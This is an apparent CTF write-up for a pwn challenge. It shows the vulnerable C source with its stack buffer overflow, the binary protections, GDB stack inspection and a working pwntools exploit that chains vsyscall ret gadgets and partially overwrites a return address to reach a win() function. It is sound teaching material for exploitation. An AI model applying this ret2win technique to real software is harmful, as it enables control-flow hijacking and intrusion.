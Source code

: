 ![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0)
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc.
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions is somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique is partially overwriting the return address in stack to win() function. We will see clearly what i mean below.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:\
![Screenshot 2025-02-27 015002](https://github.com/user-attachments/assets/f67c20ea-2bcf-405e-b7cc-48be49f90791)

Stack layout **before** junk input:\
![Screenshot 2025-02-27 015556](https://github.com/user-attachments/assets/36810dd3-6fad-48e2-8835-75161f019bbe)

Stack layout **after** junk input:\
![Screenshot 2025-02-27 015738](https://github.com/user-attachments/assets/64680289-0fff-4d1f-9bc9-d7b5b8eef4a1)
![Screenshot 2025-02-27 015823](https://github.com/user-attachments/assets/b26de687-6045-49bb-8536-f356dbacf302)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main\
![image](https://github.com/user-attachments/assets/f902b87e-d92b-4aaa-9259-f7cf7c23c152)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well. \
![image](https://github.com/user-attachments/assets/a1afad91-040c-4ddd-83c8-83e38f0fe04e)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with they byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/5ce719d9-ddbc-44bb-bb76-c336693a46d2) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local:
![Screenshot 2025-02-27 024937](https://github.com/user-attachments/assets/dddafed0-2ee5-4c95-b41f-e4d47a629d45)

Remote:
![Screenshot 2025-02-27 025009](https://github.com/user-attachments/assets/3ce2606c-1a1a-4309-b8a9-fccea68ae38f)


## Keyword
ret2win \
vsyscall \
partial address overwrite
